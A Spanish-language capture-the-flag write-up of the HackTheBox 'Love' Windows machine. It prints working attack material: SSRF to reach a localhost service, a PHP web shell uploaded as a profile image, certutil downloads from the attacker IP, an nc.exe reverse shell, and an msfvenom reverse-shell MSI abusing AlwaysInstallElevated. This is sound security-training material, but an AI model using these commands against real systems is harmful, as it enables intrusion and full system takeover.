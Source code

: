 ```yaml
---
layout      : post
title       : "HackTheBox - Love"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344banner.png
category    : [ htb ]
tags        : [ MSI, registers, file-upload, AlwaysInstallElevated, SSRF ]
---
```

Máquina **Windows** nivel fácil, escanearemos archivos locales (**localhost**) en busca de malware e.e Encontraremos credenciales y generaremos votantes con fotos de perfil peligrosas... Jugaremos con registros e instalaremos paquetes **MSI** algo traviesos.

![344loveHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344loveHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [pwnmeow](https://www.hackthebox.eu/profile/157669).

Caminos para caminantes con caminos caminantes e.e

Nos enfrentaremos a un servicio web con dos logins, uno de ellos nos permite jugar con usuarios y contraseñas, enumerando un dominio distinto al default, llegamos a una web que escanea archivos en búsqueda de malware, el archivo se lo debemos pasar por medio de una **URL**, jugaremos con esto para ver recursos locales (`http://localhost`) a los que externamente no tenemos acceso, en esa labor lograremos enumerar un servicio web alojado en el puerto **5000** (`http://localhost:5000`), de él encontraremos unas credenciales para un usuario llamado **admin**, las usaremos contra uno de los login y entraremos a una plataforma que administra un sistema de votaciones...

Estando dentro podremos agregar **votantes**, a cada votante se le puede adjuntar una imagen de perfil, usaremos esto para agregar un objeto `.php` que nos permita ejecutar código remotamente, mediante él lograremos una **Reverse Shell** como el usuario `phoebe` en la máquina.

***Hice un script que nos crea el votante, ejecuta comandos en el sistema y hace como si no hubiera pasado nada e.e***

> [arbitrary_up_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/arbitrary_up_RCE.py).

Estando dentro nos apoyaremos de varias guías sobre **PrivEsc Windows** para encontrar un tipo de escalada llamada **AlwaysInstallElevated**, tendremos que jugar con 2 registros del sistema y validar si están habilitados, en caso de que lo estén podremos instalar paquetes `MSI` con permisos administrativos. Veremos que lo están, así que generaremos un paquete **MSI** malicioso con ayuda de `msfvenom` que una vez se esté instalando nos genere una **Reverse Shell**. Con esto lograremos una Shell como el usuario `NT AUTHORITY SYSTEM` (diosito) en el sistema.

***Yyyy un `autopwn`, con él conseguimos una Shell en el mismo script como el usuario `administrador` del sistema.***

> [autopwnLove.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/autopwnLove.py).

Basta, a rompernos la cara!! e.e

...

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Más o menos de todo, intenta jugar con vulns conocidas, pero es bastante juguetona.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

Es momento de diversificar los distintos pensamientos...

1. [Reconocimiento](#reconocimiento).
  * [Escaneo de puertos con **nmap**](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Enumeración servidor web - puerto 80](#puerto-80).
  * [Enumeración certificado web - puerto 443](#puerto-443).
3. [Explotación](#explotacion).
  * [Encontrando credenciales del usuario **admin** contra un login web](#enum-creds-admin).
  * [RCE mediante una subida aleatoria de archivos - usuario **Phoebe**](#rce-php-file).
  * [Obtención de credenciales usuario **Phoebe** para generar una Shell estable con **evil-winrm**](#phoebe-evilrm).
4. [Escalada de privilegios](#escalada-de-privilegios).
5. [Post PrivEsc - Usamos **mimikatz** para extraer hashes **NTLM** y hacer *passthehash*](#post-privesc-ntlm-hashes).
  * [Pass-The-Hash - evil-winrm](#post-privesc-pth-winrm).
  * [Pass-The-Hash - psexec.py](#post-privesc-pth-psexec).

...

## Reconocimiento [#](#reconocimiento) {#reconocimiento}

---

### Enumeración de puertos con **nmap** [🔗](#enum-nmap) {#enum-nmap}

Como siempre iniciaremos escaneando los puertos abiertos de la máquina, así empezaremos a encaminar nuestra investigación:

```bash
❱ nmap -p- --open -v 10.10.10.239 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Mon Jun 21 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.239
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.239 ()	Status: Up
Host: 10.10.10.239 ()	Ports: 80/open/tcp//http///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 3306/open/tcp//mysql///, 5000/open/tcp//upnp///, 5040/open/tcp//unknown///, 5985/open/tcp//wsman///, 5986/open/tcp//wsmans///, 7680/open/tcp//pando-pub///, 49664/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////
# Nmap done at Mon Jun 21 25:25:25 2021 -- 1 IP address (1 host up) scanned in 85.24 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Servidor web |
| 135    | **[RPC](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)**: Permite la comunicación entre programas |
| 139    | **[SMB](https://www.varonis.com/blog/smb-port/)**: Ayuda a la transferencia de archivos en la red |
| 443    | **[HTTPS](https://es.wikipedia.org/wiki/Protocolo_seguro_de_transferencia_de_hipertexto)**: Servicio web "seguro" |
| 445    | **[SMB](https://www.varonis.com/blog/smb-port/)**: Ayuda a la transferencia de archivos en la red |
| 3306   | **[MySQL](https://neoattack.com/neowiki/mysql/)**: Servidor de bases de datos |
| 5000   | No lo sabemos aún con certeza |
| 5985   | **[WinRM](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/)**: Permite realizar tareas administrativas remotamente |
| 5986   | **[WinRM (HTTPS)](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/)**: Permite realizar tareas administrativas remotamente |
| 7680   | No lo sabemos a ciencia cierta |
| 5040,49664,49666,49667 | Desconocidos |
| 49668,49669,49670      | Desconocidos |

Bastantes puertos, ahora juntando todos los servicios activos vamos a hacer otro escaneo, pero este para obtener las versiones de cada servicio y si existen scripts relacionados con ellos:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.239
    [*] Open ports: 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670 -sC -sV 10.10.10.239 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

En este caso obtenemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Mon Jun 21 25:25:25 2021 as: nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670 -sC -sV -oN portScan 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.11s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, NULL, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.14.103' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-21T16:28:22+00:00; +25m20s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
49664/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=7%D=6/21%Time=60D0B785%P=x86_64-pc-linux-gnu%r(NU
...
...
...
...x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h10m20s, deviation: 3h30m02s, median: 25m19s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-21T09:28:08-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-21T16:28:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 21 25:25:25 2021 -- 1 IP address (1 host up) scanned in 182.94 seconds
```

Tenemos algunas cositas relevantes:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Apache httpd 2.4.46 OpenSSL/1.1.1j PHP/7.3.27 |
| 443    | HTTPS    | Apache httpd 2.4.46 OpenSSL/1.1.1j PHP/7.3.27 |

* Además de un dominio: `staging.love.htb`.
* Y un nombre de organización: `ValentineCorp`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 445    | SMB      | Windows 10 Pro 19042 |
| 5000   | HTTP     | Servidor web con Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27) |

Listones, hemos terminado nuestra enumeración con **nmap**, ahora profundicemos en cada servicio y veamos en cuál tenemos posibilidad de romper cositas...

...

## Enumeración [#](#enumeracion) {#enumeracion}

---

### Puerto 80 [🔗](#puerto-80) {#puerto-80}

![344page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80.png)

Un login... Intentando distintos ID's nos responde con esto:

> Cannot find voter with the ID

Así que podríamos intentar algún tipo de fuerza bruta para encontrar si algún **ID** nos devuelve una respuesta distinta, peeero antes, podemos probar a agregar el dominio que encontramos en el escaneo de **nmap** al archivo `/etc/hosts` y ver si nos responde algo al hacer peticiones hacia él:

```bash
❱ cat /etc/hosts
...
10.10.10.239  staging.love.htb
...
```

> [¿Que es el archivo **hosts**?](https://www.ionos.es/digitalguide/servidores/configuracion/archivo-hosts/).

Y ahora en la web pondríamos el dominio:

![344page80staging](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging.png)

Perfecto, tenemos otro servicio que esta respondiendo contra ese dominio, así que ahora tenemos más para probar... **(Lo del fuzzeo por ID's no nos dio ninguna respuesta, así que F)**

Se trata de un servidor web en producción aún que se encarga de analizar archivos en busca de malware y cositas así, dirigiéndonos al apartado **Demo** (arriba a la izquierda) nos lleva a `/beta.php`:

![344page80staging_betaPHP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP.png)

En él podemos añadir un archivo mediante una **URL** y la web hará el respectivo escaneo del objeto en busca de malware...

Después de jugar con este apartado no logramos nada interesante (ni **reverse shells**, ni archivos `.php` con instrucciones simples (`echo 'hola';`), ni `.exe`'s, nada de eso nos funcionó), peeero sabemos que esta funcionando y que además algunos archivos `.php` los interpreta, ¿cómo lo sabemos?, sencillito... 

Escaneamos el archivo `index.php` del servidor local, que sería el correspondiente a `http://10.10.10.239/index.php`:

![344page80staging_betaPHP_localhost](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost.png)

Y nos responde con su **body**:

![344page80staging_betaPHP_localhost_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost_res.png)

Pero poquito poquito podemos hacer con esto...

Jugando con `dirsearch` y `wfuzz` para realizar un fuzzeo en la web principal (`http://10.10.10.239`) encontramos varios recursos más, pero solo algunos interesantes (y a los que tenemos acceso):

```bash
❱ wfuzz -c --hc=404,403 -w /opt/SecLists/Discovery/Web-Content/common.txt http://10.10.10.239/FUZZ
```

![344bash_fuzz_page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_fuzz_page80.png)

Visitando `/admin` obtenemos otro login, pero ahora nos pide usuario y contraseña... 

![344page80_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin.png)

Probando con los de siempre, nos damos cuenta de que al colocar cualquier cosa en el campo **Username**, nos responde con:

> Cannot find account with the username

Pero al colocar el usuario **admin** nos devuelve:

> Incorrect password

Así que sabemos que el usuario **admin** existe en la base de datos (:

Visitando el recurso `/includes` vemos una lista de archivos:

![344page80_includes_list](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_includes_list.png)

Dando clic en `navbar.php` encontramos un error, y en ese error la ruta absoluta donde esta alojado el servidor web:

![344page80_includes_navbar](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_includes_navbar.png)

No podemos hacer nada con esto, peeeeeero puede llegar a ser importante en caso de querer subir archivos o algo así. Guardao'...

...

### Puerto 443 [🔗](#puerto-443) {#puerto-443}

Después de nuestra enumeración con el puerto 80, nos pondremos a enumerar el servicio **HTTPS**, colocando en el navegador `https://10.10.10.239` nos responde que no tenemos acceso a ese recurso :( Peeero podemos apoyarnos de `openssl` para ver información del certificado **SSL** con el que se cuenta:

```bash
❱ openssl s_client -connect 10.10.10.239:443
```

Al ejecutarlo podemos destacar el dominio que ya habíamos visto con **nmap**, pero también un **email**:

```bash
...
depth=0 C = in, ST = m, L = norway, O = ValentineCorp, OU = love.htb, CN = staging.love.htb, emailAddress = roy@love.htb
...
```

Bien, podemos extraer el usuario `roy` del email...

Probando con él ante **SMB** y ante los demás recursos no logramos alguna otra respuesta a las que teníamos, pero bueno, guardémoslo por si algo (:

...

## Explotación [#](#explotacion) {#explotacion}

---

### Encontrando credenciales del usuario <u>admin</u>, login web [🔗](#enum-creds-admin) {#enum-creds-admin}

Después de un tiempo de estar perdido y sin esperanzas e.e 

Estuvimos jugando con los demás puertos activos, nos dimos cuenta de que al realizar peticiones hacia la `http://10.10.10.239:5000` volvíamos a recibir:

> You don't have permission to access this resource.

Acá recordé lo que habíamos hecho con el analizador de archivos (que habíamos escaneado un objeto **local**), intentando en vez de escanear el `index.php`, hacerlo contra el `index.php` pero del servidor **web** alojado en el puerto **5000** (que ni idea si exista), curiosamente obtenemos una respuesta:

![344page80staging_betaPHP_localhost5000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost5000.png)

![344page80staging_betaPHP_localhost5000_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost5000_res.png)

Encontramos que el servicio del puerto **5000** es uno relacionado con **passwords** yyy vemos una para el usuario **admin** (que sabíamos que existía), pues probémoslas:

* Username: `admin`.
* Password: `@LoveIsInTheAir!!!!`.

![344page80_admin_login_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_login_done.png)

Listones, son válidas 🤼

---

### RCE mediante una subida aleatoria de archivos [🔗](#rce-php-file) {#rce-php-file}

Jugando nos damos cuenta de que podemos agregar **votantes**

![344page80_admin_addvoters](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters.png)

Damos clic en **New** y vemos:

![344page80_admin_addvoters_form](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_form.png)

Podemos añadir una imagen de perfil 😏 pues en vez de una imagen, intentemos subir un archivo `.php` con código que nos permita ejecutar comandos en el sistema:

```bash
❱ cat quesedice.php 
<?php $command=shell_exec($_GET['xmd']); echo $command; ?>
```

Lo que reciba la variable `xmd` a través del método [**GET**](https://www.ionos.es/digitalguide/paginas-web/desarrollo-web/get-vs-post/), será ejecutado en el sistema (gracias a la función `shell_exec()`, pero podríamos usar `system()`, `exec()` y otras más), el resultado de la ejecución se guarda en la variable `command` y mostrado en pantalla con ayuda de `echo`. Por ejemplo, si somos el usuario **web** y hacemos `xmd=whoami`, se ejecutara `whoami` en el sistema y guardara **web** en la variable `command`, lo siguiente será ver ese resultado con el `echo $command`.

Nuestro formulario quedaría así (en mi caso):

![344page80_admin_addvoters_form_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_form.png)

Guardamos y:

![344page80_admin_addvoters_lanz](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_lanz.png)

Vemos el icono de la imagen en todo el centro, la arrastramos (como si quisiéramos abrirla en otra ventana) y nos redirige a la URL `http://10.10.10.239/images/quesedice.php`:

![344page80_images_quesedicePHP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP.png)

Al parecer esta interpretando el código, solo que `shell_exec` esta vacío y nos muestra ese error, juguemos con el método **GET** para ejecutar el comando `whoami`:

```html
http://10.10.10.239/images/quesedice.php?xmd=whoami
```

Obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP_whoami.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opa, tenemos ejecución remota de comandos (: El usuario que esta ejecutando el servidor web se llama `phoebe`, por lo tanto vamos a estar ejecutando comandos como ese usuario (:

**Ya confirmamos *RCE*, ahora entablémonos una Reverse Shell:**

Podemos descargar el binario `nc.exe` desde [acá](https://eternallybored.org/misc/netcat/) (netcat 1.12), una vez los tengamos en nuestro sistema, los movemos o nos movemos donde estén los binarios y levantamos un servidor web con ayuda de **Python**:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora procedemos a indicarle a la máquina que se descargue el binario `nc.exe` y lo guarde en su sistema:

```html
http://10.10.10.239/images/quesedice.php?xmd=certutil.exe -f -split -urlcache http://10.10.14.103:8000/nc.exe c:\\Users\\phoebe\\Videos\\nc.exe
```

Guardamos el binario en la carpeta **Videos** del usuario **phoebe**... La web nos responde:

```html
**** Online **** 0000 ... 96d8 CertUtil: -URLCache command completed successfully. 
```

Validamos que se haya descargado y exista en el sistema:

```html
http://10.10.10.239/images/quesedice.php?xmd=dir c:\Users\phoebe\Videos\nc.exe
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP_dir_videos.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, ahora simplemente le indicamos que una vez entable una conexión con el puerto **4433** de nuestra máquina nos lance por ahí una `cmd.exe` (una terminal de **Windows**).

**Pero claro, antes tenemos que ponernos en escucha por el puerto **4433**:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Ahora sí, procedamos:

```html
http://10.10.10.239/images/quesedice.php?xmd=c:\Users\phoebe\Videos\nc.exe 10.10.14.103 4433 -e cmd.exe
```

YyyyyYyaysdfyyayyYYYYyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_nc_phoebe_RevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344google_gif_yeahslowgolf.gif" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

Peeeeeeeeerfecto, tamos con una terminal en el sistema como el usuario **phoebe**.

...

He creado un script para facilitar la ejecución remota de comandos, solo debemos pasarle el **comando** y no debemos preocuparnos de nada más (:

> [arbitrary_up_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/arbitrary_up_RCE.py).

...

### Obtención PowerShell estable con evil-winrm [🔗](#phoebe-evilrm) {#phoebe-evilrm}

Enumerando el sistema y la raíz del servidor web, encontramos el archivo que hace la conexión con la base de datos:

```powershell
c:\\xampp\htdocs\omrs\includes>type conn.php
```

```php
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }

?>
```

Tenemos al usuario **phoebe** y su contraseña contra el servicio **MySQL**... 

Pero haciendo reutilización de contraseñas y jugando con la herramienta [evil-winrm](https://github.com/Hackplayers/evil-winrm) logramos obtener una **PowerShell** como el usuario **Phoebe** en el sistema:

```bash
❱ evil-winrm -i 10.10.10.239 -u 'phoebe' -p 'HTB#9826^(_'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_evilwinrm_phoebe.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Así que ya podemos salirnos de la **Reverse Shell** (:

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando el sistema por encima buscando formas de escalar no encontramos nada interesante, o bueno, encontramos una carpeta algo "llamativa" en la raíz del sistema:

```powershell
*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/21/2021   9:52 AM                Administration
...
```

Dentro hay unos objetos, pero nada que sacar de ellos, así que tamos igual...

De ahí me fui para la web y busqué algunas guías sobre **PrivEsc Windows**, llegamos a esta de [HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation), allí encontramos una manera de escalar llamada [AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated), en la cual debemos validar si dos [registros del sistema](https://es.wikipedia.org/wiki/Registro_de_Windows) están habilitados (que tengan el valor `0x1`), en caso de que lo estén tendremos la posibilidad de instalar [Microsoft Windows Installer Package Files (MSI)](https://es.wikipedia.org/wiki/Windows_Installer) (paquetes **MSI**) con permisos administrativos así no los tengamos (: pues validemos los dos registros:

```powershell
*Evil-WinRM* PS C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Bien, siguiente:

```powershell
*Evil-WinRM* PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Perfecto, entonces tenemos la posibilidad de instalar paquetes **MSI** con permisos administrativos, apoyémonos de **msfvenom** para crear un paquete malicioso que cuando intente **instalarlo** nos genere una Reverse Shell:

> [cd6629.gitbook.io - windows privesc - AlwaysInstallElevated](https://cd6629.gitbook.io/ctfwriteups/windows-privesc#alwaysinstallelevated).

**Asignamos nuestra IP y el puerto en el que estaremos escuchando...**

```bash
❱ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.103 LPORT=4433 -f msi -o ajaterompi.msi
```

Ejecutamos y obtenemos el paquete:

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: ajaterompi.msi
```

Ahora, subimos el paquete a la máquina víctima y procedemos a instalarlo:

```powershell
*Evil-WinRM* PS C:\Users\Phoebe\Videos> certutil.exe -f -urlcache -split http://10.10.14.103:8000/ajaterompi.msi c:\Users\Phoebe\Videos\ajaterompi.msi
```

> **Nos ponemos en escucha por el puerto 4433: `nc -lvp 4433`**

Ahora ejecutamos:

```powershell
*Evil-WinRM* PS C:\Users\Phoebe\Videos> msiexec /quiet /qn /i c:\Users\Phoebe\Videos\ajaterompi.msi
```

Donde (gracias a [vulp3cula.gitbook.io - privesc windows - AlwaysInstallElevated setting](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows#alwaysinstallelevated-setting)):

* `/quiet` permite **bypassear** el **control de cuentas de usuario ([UAC](https://java.com/es/download/help/uac.html))**.
* `/qn` le indica al programa que no nos ejecute una interfaz gráfica.
* `/i` es el que le dice que queremos hacer una **instalación** de un paquete.

Listo, entendiendo que estamos haciendo, procedemos a ejecutar la línea...

Pero no pasa nada ): Acá se me ocurrió que el problema podría ser **PowerShell**, así que volviendo a usar él [script]() para ejecutar comandos en el sistema, le decimos que nos ejecute esa línea:

```bash
❱ python3 arbitrary_up_RCE.py -c 'msiexec /quiet /qn /i c:\Users\Phoebe\Videos\ajaterompi.msi'
```

Y en nuestro listener:

![344bash_script_msiexec_adminSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_script_msiexec_adminSH.png)

Obtenemos la **Reverse Shell** como el usuario administrador del sistema (:

Recopilamos lo usado:

* [HackTricks - AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated).
* [cd6629.gitbook.io - windows privesc - AlwaysInstallElevated](https://cd6629.gitbook.io/ctfwriteups/windows-privesc#alwaysinstallelevated).
* [vulp3cula.gitbook.io - privesc windows - AlwaysInstallElevated setting](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows#alwaysinstallelevated-setting).

Veamos las flags...

